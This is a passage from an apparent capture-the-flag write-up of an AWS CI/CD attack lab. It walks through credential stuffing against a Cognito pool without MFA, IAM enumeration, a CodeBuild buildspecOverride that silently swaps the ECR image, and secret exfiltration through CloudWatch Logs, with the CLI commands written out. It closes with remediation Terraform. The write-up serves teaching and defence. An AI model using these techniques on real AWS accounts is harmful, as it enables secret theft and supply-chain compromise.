  --query 'logStreams[*].{stream:logStreamName,lastEvent:lastEventTimestamp}'
```

Output:
```json
[
  {
    "stream": "ecs/dam-breaks-webapp/eeff5566aabb",
    "lastEvent": 1746500000000
  },
  {
    "stream": "ecs/dam-breaks-webapp/aabb1122ccdd",
    "lastEvent": 1746400000000
  }
]
```

The top stream (`eeff5566aabb`) is the new task — the task ID is different from the one recorded in Step 6 (`aabb1122ccdd`). Filter for the flag:

```bash
aws logs filter-log-events \
  --log-group-name "/ecs/dam-breaks-webapp-xxxxxxxx" \
  --log-stream-names "ecs/dam-breaks-webapp/eeff5566aabb" \
  --region us-east-1 \
  --filter-pattern "flag" \
  --query 'events[0].message' \
  --output text
```

Output:
```json
{
  "flag": "flag{commit-clean-you-were-not}",
  "message": "Congratulations. The dam has broken.",
  "internal_note": "The build succeeded. The logs are clean. Nobody noticed.",
  "git_status": "nothing to commit, working tree clean",
  "build_status": "BUILD SUCCEEDED"
}
```

Verify the ECR `:latest` digest changed — compare against the digest recorded in Step 5:

```bash
aws ecr describe-images \
  --repository-name "dam-breaks-beaverpay-webapp-xxxxxxxx" \
  --image-ids imageTag=latest \
  --region us-east-1 \
  --query 'imageDetails[0].{digest:imageDigest,pushedAt:imagePushedAt}'
```

Output:
```json
{
  "digest": "sha256:ffee9876...",
  "pushedAt": "2026-05-10T09:30:00+00:00"
}
```

The digest is different from `sha256:aabb1234...` recorded in Step 5. The legitimate image was silently replaced. The Git repository still reads `nothing to commit, working tree clean`.

---

## Attack Chain Summary

```
BeaverPay Developer Portal
↓  /config exposes Cognito clientId, poolId, identityPoolId
↓  MFA: Optional — no second factor enforced
Credential stuffing → j.park@ottercode.kr / Otter2022!
↓  No MFA challenge. JWT returned immediately.
Cognito Identity Pool
↓  JWT → CollaboratorDeveloperRole via AssumeRoleWithWebIdentity
iam:GetRolePolicy → policy document read directly
↓  iam:SimulatePrincipalPolicy allowed — use it to enumerate effective permissions
iam:SimulatePrincipalPolicy
↓  codebuild:StartBuild allowed — no Condition on buildspec
↓  ecr:PutImage denied — direct push blocked
↓  secretsmanager:GetSecretValue denied — direct flag read blocked
iam:GetRolePolicy → CodeBuildAccess statement has no Condition block
↓
codebuild:BatchGetProjects
↓  ECS_CLUSTER, ECS_SERVICE, SECRET_ARN exposed in environment variables
buildspecOverride → file:///tmp/buildspec.json
↓  Git repository untouched. Malicious buildspec runs in CodeBuild memory.
ECR :latest push — MUTABLE tag overwritten silently
↓
ECS rolling deploy — no approval gate, circuit breaker disabled
↓  Malicious container (Alpine + aws-cli) starts automatically (~3 min)
ECS Task Role → secretsmanager:GetSecretValue → stdout
↓  CloudWatch Logs captures container stdout automatically
logs:FilterLogEvents with CollaboratorDeveloperRole
↓
flag{commit-clean-you-were-not}
```

---

## Key Techniques

### buildspecOverride — Git Integrity Bypass

```bash
cat > /tmp/buildspec.json << 'EOF'
{ ... }
EOF

aws codebuild start-build \
  --buildspec-override file:///tmp/buildspec.json
```

### CloudWatch Logs as Exfiltration Channel

```bash
aws logs filter-log-events \
  --log-group-name "/ecs/dam-breaks-webapp-xxxxxxxx" \
  --filter-pattern "flag" \
  --query 'events[0].message' \
  --output text
```

### IAM Condition Missing — buildspec Lock Bypass

```json
{
  "Condition": {
    "StringEquals": {
      "codebuild:buildspec": "buildspec.yaml"
    }
  }
}
```

---

## Lessons Learned

1. **MFA Enforcement** — Set Cognito MFA to `REQUIRED`.
2. **IAM Resource Scope** — Specify exact project ARNs instead of wildcard `*`.
3. **buildspec Condition** — Add `codebuild:buildspec` IAM Condition to prevent `buildspecOverride`.
4. **ECR Image Signing** — Enforce image signature verification (AWS Signer / Cosign).
5. **Deployment Gate** — Use Blue/Green deployment with manual approval gate.
6. **ECS Outbound Restriction** — Restrict Security Group outbound to HTTPS only. Note: this prevents reverse shells but not CloudWatch Logs exfiltration, which uses HTTPS. Combine with least-privilege Task Role IAM policy.
7. **Build Alert Monitoring** — Treat CI/CD alerts as high-priority signals, not noise.

---

## Remediation

### Cognito — Enforce MFA

```hcl
resource "aws_cognito_user_pool" "developer_portal_userpool" {
  mfa_configuration = "ON"

  software_token_mfa_configuration {
    enabled = true
  }

  user_pool_add_ons {
    advanced_security_mode = "ENFORCED"
  }
}
```

### IAM — Restrict CodeBuild Permissions

```json
{
  "Effect": "Allow",
  "Action": ["codebuild:StartBuild"],
  "Resource": "arn:aws:codebuild:us-east-1:*:project/dam-breaks-webapp-qa-*",
  "Condition": {
    "StringEquals": {
      "codebuild:buildspec": "buildspec.yaml"
    }
  }
}
```

### ECR — Enforce Image Immutability

```hcl
resource "aws_ecr_repository" "webapp_ecr" {
  image_tag_mutability = "IMMUTABLE"
}
```

### ECS — Blue/Green Deployment with Approval

```hcl
resource "aws_ecs_service" "webapp_service" {
  deployment_controller {
    type = "CODE_DEPLOY"
  }
  deployment_circuit_breaker {
    enable   = true
    rollback = true
  }
}
```

### ECS Security Group — Restrict Outbound

```hcl
resource "aws_security_group" "ecs_task_sg" {
  egress {
    description = "HTTPS only"
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }
}
```
